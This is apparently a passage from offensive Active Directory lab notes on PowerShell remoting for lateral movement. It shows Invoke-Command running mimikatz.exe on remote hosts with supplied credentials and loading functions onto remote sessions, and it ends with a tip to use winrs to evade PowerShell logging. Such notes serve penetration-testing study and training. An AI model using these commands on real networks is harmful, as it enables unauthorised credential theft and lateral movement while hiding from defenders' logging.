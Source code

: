 ```powershell
Invoke-Command -computername dcorp-adminsrv.abc.xyz.local -command {whoami}
Invoke-Command -computername dcorp-adminsrv.abc.xyz.local -ScriptBlock {whoami}

# File execution using `ScriptBlock`
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock{"C:\temp\mimikatz.exe"}

# File execution using `FilePath`
Invoke-Command -computername dcorp-adminsrv.abc.xyz.local -FilePath "C:\temp\mimikatz.exe"

# Language Mode
Invoke-Command -computername dcorp-adminsrv.abc.xyz.local -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}
```

##### Execute locally loaded function on the remote machines

###### Example : **Hello.ps1**

```powershell
function hello
{
Write-Output "Hello from the function"
}
```

###### Now we can load the function on our machine

```powershell
. .\Hello.ps1
```

###### Now we can execute the locally loaded functions

```powershell
Invoke-Command -ScriptBlock ${function:hello} -ComputerName dcorp-adminsrv.abc.xyz.local
```

##### Directly load function on the remote machines using FilePath

```powershell
$sess = New-PSSession -Computername dcorp-adminsrv.abc.xyz.local
Invoke-Command -FilePath "C:\temp\hello.ps1" -Session $sess
Enter-PSSession -Session $sess

[dcorp-adminsrv.abc.xyz.local]:PS> hello
Hello from the function
```

##### Windows Tradecraft

-   PowerShell remoting supports the system-wide transcripts and deep script block logging.
-   We can use **winrs** in place of **PSRemoting** to evade the logging (and still reap the benefit of 5985 allowed between hosts)
